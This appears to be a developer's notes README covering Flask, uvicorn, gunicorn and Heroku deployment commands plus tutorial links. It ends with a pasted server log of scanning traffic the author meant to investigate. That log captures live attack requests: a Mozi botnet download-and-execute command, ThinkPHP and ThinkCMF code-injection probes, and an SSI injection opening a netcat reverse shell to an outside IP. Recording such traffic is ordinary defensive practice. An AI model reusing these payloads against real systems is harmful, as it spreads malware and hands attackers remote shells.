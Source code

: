 # Notes

## Contributing
- Fork it.
- Create a branch (git checkout -b my_malice)
- Commit your changes (git commit -am "Added Something Cool")
- Push to the branch (git push origin my_malice)
- Open a Pull Request
- Wait for me to figure out what the heck a pull request is...

## Flash 
- pip3 install flask
- from flask import flash

- export FLASK_APP=app.py
- export FLASK_ENV=development

- flask run
flask run -h 0.0.0.0 -p 8080

## Cheat cheat
- curl cht.sh/python/flask


## Live server
from liveserver import LiveServer
ls = LiveServer(app)
    ls.run("0.0.0.0", 8080)

## uvicorn
uvicorn app:app --reload --port 80 --host 0.0.0.0

gunicorn -w 4 --bind 0.0.0.0:8000 wsgi:app


## Videos:
https://github.com/jakerieger/FlaskIntroduction/blob/master/templates/index.html


## Heroku
-$ heroku login
$ cd my-project/

$ git init OR - $ heroku git:remote -a maks-todo-api
$ heroku git:remote -a maks-todo-api

$ git add .
$ git commit -am "make it better"
$ git push heroku master

git branch -a
git push heroku main


To switch the default branch used to deploy apps from master to main, first create a new branch locally:

git checkout -b main
Next, delete the old default branch locally:

git branch -D master
From there, the local environment only knows about the main branch.

Reset the GIT repository hosted on the Heroku Platform using the heroku-reset command from the heroku-repo CLI plugin. Doing so will not impact the running application. (Note: Please communicate this change with your team. If you are working with other developers who are not aware of the reset, they might push to "master" which will overwrite the reset).

Re-deploy the application using the new default branch:

git push heroku main

todo/update/add/delete- Jinja
https://www.youtube.com/watch?v=yKHJsLUENl0
https://github.com/python-engineer/flask-todo/blob/master/templates/base.html

todo/update/add/delte/status/ jinja/some JS - most deep
https://github.com/a2975667/flask-gcp-mysql-demo
https://tichung.com/blog/2021/20200323_flask/

todo/update/
https://www.youtube.com/watch?v=Z1RJmh_OqeA

blog/users
https://www.youtube.com/watch?v=74NW-84BqbA&t=1818s

Vidoes/likes/views
https://www.youtube.com/watch?v=GMppyAPbLYk&t=253s


investigate from new TODO API Server
71.215.97.89 - - [13/May/2022 12:10:58] "GET /loadsavedtodo HTTP/1.1" 200 -
112.220.89.114 - - [13/May/2022 12:26:43] code 400, message Bad HTTP/0.9 request type ('27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$')
112.220.89.114 - - [13/May/2022 12:26:43] "27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0" HTTPStatus.BAD_REQUEST -



ode 400, message Bad request version ('´\x10r\x88CÓó\x9eU´)Ó(¬=\x8a¼\xad|Û\x9d¸k\x14\x95¸m_¥\x17EÑ\x00b\x13\x02\x13\x03\x13\x01À,À0À+À/Ì©Ì¨\x00£\x00\x9f\x00¢\x00\x9eÌªÀ¯À\xadÀ$À(À')                                                                       109.237.103.9 - - [17/May/2022 02:57:34] "D@                                                                                                  ®®¶CÓó¼­|Û¸m_¥EÑbÀ,À0À+À/Ì©Ì¨£" HTTPStatus.BAD_REQUEST
 -                                                                                                193.106.191.48 - - [17/May/2022 03:17:47] "GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 HTTP/1.1" 404 -                    193.106.191.48 - - [17/May/2022 03:58:35] "GET /?a=fetch&content=<php>die(@md5(HelloThinkCMF))</php> HTTP/1.1" 200 -                                                                                192.241.213.149 - - [17/May/2022 04:15:16] "GET / HTTP/1.1" 200 -                                 185.180.143.8 - - [17/May/2022 04:21:01] "GET / HTTP/1.1" 200 -                                   38.106.120.198 - - [17/May/2022 04:21:35] "GET / HTTP/1.1" 200 -                                  205.210.31.137 - - [17/May/2022 04:43:53] code 400, message Bad request version ('À(À$À\x14À')    205.210.31.137 - - [17/May/2022 04:43:53] "ÊÆ-*@máY[l7Zðáå«,÷3ÂÔDà}íªÖsÕßhÌÌÀ/À+À0À,ÀÀÀ'À#ÀÀ    À(À$ÀÀ" HTTPStatus.BAD_REQUEST -                                                                    89.104.110.102 - - [17/May/2022 04:53:19] "GET / HTTP/1.1" 200 -                                  176.53.216.46 - - [17/May/2022 04:53:20] "GET /favicon.ico HTTP/1.1" 404 -                        94.102.61.10 - - [17/May/2022 04:59:45] "GET / HTTP/1.1" 200 -                                    193.106.191.48 - - [17/May/2022 05:00:28] "GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1" 200 -    45.148.10.81 - - [17/May/2022 05:51:08] "GET /incl/image_test.shtml?camnbr=%3c!--%23exec%20cmd=%22mkfifo%20/tmp/s;nc%20-w%205%20193.124.7.9%2031337%200%3C/tmp/s|/bin/sh%3E/tmp/s%202%3E/tmp/s;rm%20/tmp/s%22%20--%3e HTTP/1.0" 404 -                                                                 193.106.191.48 - - [17/May/2022 05:56:39] "GET /console/ HTTP/1.1" 404 -                          193.106.191.48 - - [17/May/2022 06:06:29] "POST /Autodiscover/Autodiscover.xml HTTP/1.1" 404 




 changki.com